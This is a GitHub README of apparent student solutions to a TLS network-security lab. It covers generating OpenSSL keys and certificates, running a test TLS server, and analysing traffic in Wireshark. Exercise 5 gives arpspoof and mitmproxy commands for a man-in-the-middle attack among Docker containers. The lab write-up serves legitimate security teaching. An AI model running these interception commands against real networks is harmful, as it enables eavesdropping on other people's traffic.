 # 🔐 TLS Lab Solutions - Network Security (Kali Linux)  

This repository contains my solutions and notes for the **TLS Lab** from my **Network Security Course**. The exercises were performed in **Kali Linux** using **OpenSSL, Wireshark, and Docker**.  

## 📌 **Lab Overview**  
In this lab, we explored **TLS certificates, encryption, and attacks** using various tools. The main topics covered:  
✅ Generating RSA keys and certificate signing requests (CSR).  
✅ Creating and inspecting self-signed **X.509 certificates**.  
✅ Setting up a **TLS-secured server** using OpenSSL.  
✅ Analyzing **TLS traffic** using **Wireshark**.  
✅ Performing a **Man-in-the-Middle (MitM) attack** using ARP poisoning.  

---

## 🚀 **Solutions for Each Exercise**  

### 🔹 **Exercise 1: Generating a Private Key & CSR**  
1️⃣ Generate an **RSA Private Key (1024-bit)**:  
```sh
openssl genrsa -out mykey.pem 1024
```  
2️⃣ Create a **Certificate Signing Request (CSR)**:  
```sh
openssl req -new -key mykey.pem -out mycsr.csr
```  
❓ **Issues**:  
- **Weak Key Length (1024-bit RSA)** – should use **4096-bit** for better security.  
- **Sharing the Private Key** exposes all encrypted data to attackers.  

---

### 🔹 **Exercise 2: Self-Signed Certificate with OpenSSL**  
1️⃣ Sign the CSR and generate a **self-signed certificate**:  
```sh
openssl x509 -req -days 365 -in mycsr.csr -signkey mykey.pem -out mycert.crt
```  
2️⃣ Inspect the certificate details:  
```sh
openssl x509 -in mycert.crt -text -noout
```  

---

### 🔹 **Exercise 3: Setting Up a TLS-Enabled Server**  
1️⃣ Start a **TLS Server** on port `1443` with OpenSSL:  
```sh
openssl s_server -accept 1443 -cert mycert.crt -key mykey.pem
```  
2️⃣ Generate a **stronger RSA key (4096-bit)** and restart the server:  
```sh
openssl genrsa -out strongkey.pem 4096
openssl req -new -key strongkey.pem -out strongcsr.csr
openssl x509 -req -days 365 -in strongcsr.csr -signkey strongkey.pem -out strongcert.crt
openssl s_server -accept 1443 -cert strongcert.crt -key strongkey.pem
```  
3️⃣ Open a **browser** and visit:  
```
https://localhost:1443
```  

---

### 🔹 **Exercise 4: Analyzing TLS Traffic with Wireshark**  
1️⃣ Start **Wireshark** with root privileges:  
```sh
sudo -E wireshark
```  
2️⃣ Capture traffic on the **loopback (lo) interface**.  
3️⃣ Visit `https://localhost:1443` and reload the page.  
4️⃣ Analyze the **TLS handshake, encryption, and decryption process**.  

---

### 🔹 **Exercise 5: Man-in-the-Middle (MitM) Attack via ARP Poisoning**  
📌 **Setup**:  
- **Alice** (User) - Browses the web  
- **Bob** (Web Server) - Hosts a website  
- **Eve** (Attacker) - Performs MitM  

1️⃣ **Run the MitM Docker Containers**:  
```sh
docker compose up --build -d
```  
2️⃣ **Connect to Containers**:  
```sh
docker exec -it mitm_alice /bin/bash
docker exec -it mitm_bob /bin/bash
docker exec -it mitm_eve /bin/bash
```  
3️⃣ **Perform ARP Spoofing as Eve**:  
```sh
arpspoof -i eth0 -t <Alice_IP> -r <Bob_IP>
arpspoof -i eth0 -t <Bob_IP> -r <Alice_IP>
```  
4️⃣ **Monitor Traffic with mitmproxy**:  
```sh
source .pyenv/bin/activate
pip3 install mitmproxy
mitmproxy -T --host
```  

---

## 📂 **Folder Structure**  
```
📦 TLS-Lab-Solutions
 ┣ 📜 README.md  (This file)
 ┣ 📂 solutions  (Contains scripts & configurations)
 ┃ ┣ 📜 exercise1_key_csr.sh
 ┃ ┣ 📜 exercise2_certificate.sh
 ┃ ┣ 📜 exercise3_tls_server.sh
 ┃ ┣ 📜 exercise4_wireshark_notes.txt
 ┃ ┗ 📜 exercise5_mitm_attack.sh
 ┗ 📂 screenshots  (Screenshots of Wireshark and TLS setup)
```  

---

## 🛠 **Tools Used**  
✅ **OpenSSL** - Generating RSA keys & TLS certificates  
✅ **Wireshark** - Capturing & analyzing TLS traffic  
✅ **Docker** - Running MitM attack containers  
✅ **arpspoof** - ARP poisoning for MitM attacks  
✅ **mitmproxy** - Intercepting HTTPS traffic  

---

## 🔥 **Future Improvements**  
🔹 Automate TLS setup using scripts  
🔹 Implement **HSTS & Certificate Pinning** for security  
🔹 Experiment with **TLS 1.3 & newer cipher suites**  

---

## 💡 **Conclusion**  
This lab covered **TLS security, traffic analysis, and MitM attacks**. By using OpenSSL, Wireshark, and Docker, we gained hands-on experience with **certificate management and real-world cyber threats**.  

📢 **Contributions Welcome!** If you have improvements or additional insights, feel free to submit a PR.  

🚀 **Author**: VASUDEV GOUD BIKKI

